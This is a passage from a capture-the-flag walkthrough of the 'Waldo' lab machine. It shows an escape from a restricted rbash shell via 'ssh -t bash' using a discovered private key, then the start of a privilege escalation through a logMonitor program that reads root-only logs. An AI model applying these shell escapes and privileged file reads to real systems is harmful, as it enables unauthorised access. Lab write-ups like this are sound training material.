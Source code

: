 
I’ll need to set the path to something more reasonable, but that’s easy enough
outside of `rbash`:

    
    
    monitor@waldo:/$ export PATH=/root/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    

#### Unintended Route: ssh -t

When you run ssh with the `-t` flag, it creates a pseudo-tty within the
current session and runs the given command, exiting when the command
completes. So if I use `-t bash`, I get a normal shell, skipping the `rbash`
all together. I will need to set the `PATH` variable on getting in to make the
shell functional:

    
    
    waldo:~$ ssh -i /home/nobody/.ssh/.monitor monitor@localhost -t bash
    monitor@waldo:~$ cd /
    monitor@waldo:/$ id
    bash: id: command not found
    monitor@waldo:/$ export PATH=/root/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    monitor@waldo:/$ id
    uid=1001(monitor) gid=1001(monitor) groups=1001(monitor)
    

On the free servers, which had a lot of users going at once, this way was
often given away because it shows up in the process list of the container, so
once someone figured it out, it was obviously there for others to grab and
use.

## Privesc: Full Disk Read as root

### logMonitor

In the monitor home directory, in the `app-dev` folder, there’s code and an
executable for a program called `logMonitor`. Looking at the code, it will,
depending on the flag passed in, read a log file, and output it to stdout.

    
    
    monitor@waldo:~/app-dev$ find . -type f -ls
       656316     16 -r-xr-x---   1 app-dev  monitor     13706 May  3 16:50 ./v0.1/logMonitor-0.1
       656315     16 -r--r-----   1 app-dev  monitor     13704 May  3 16:50 ./logMonitor.bak
       655371      8 -rw-rw-rw-   1 monitor  monitor      6824 Aug  8 10:41 ./logMonitor.o
       656304      4 -r-xr-x---   1 app-dev  monitor       795 May  3 16:50 ./.restrictScript.sh
       656309      4 -rw-rw----   1 app-dev  monitor      2677 May  3 16:50 ./logMonitor.c
       656310      4 -rw-rw----   1 app-dev  monitor       488 May  3 16:50 ./logMonitor.h
       656311      4 -rwxr-----   1 app-dev  monitor       266 May  3 16:50 ./makefile
       655372     16 -rw-rw-rw-   1 monitor  monitor     13704 Aug  8 10:41 ./logMonitor
       655370   2168 -rw-rw-rw-   1 monitor  monitor   2217712 Aug  8 10:41 ./logMonitor.h.gch
    

The version in the main directory doesn’t seem to work, but the one in `v0.1`
does. But to work, it must print out the contents of files that are only
available to privileged users. For example, with a `-a` flag, it will print
the contents of “/var/log/auth.log”

